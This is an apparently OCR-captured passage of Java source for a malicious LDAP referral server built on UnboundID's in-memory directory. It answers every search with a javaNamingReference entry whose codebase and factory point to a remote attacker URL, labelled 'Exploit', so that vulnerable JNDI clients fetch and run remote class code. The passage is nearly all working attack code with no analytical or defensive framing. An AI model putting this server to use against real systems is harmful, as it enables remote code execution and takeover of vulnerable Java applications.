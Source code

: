 ```java
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();
        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }
    private static class OperationInterceptor extends InMemoryOperationInterceptor {
        private URL codebase;
        /**
         * */ public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }
        /**
         * {@inheritDoc}
         * * @see com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor#processSearchResult(com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult)
         */ @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }
        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "Exploit");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference");
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```
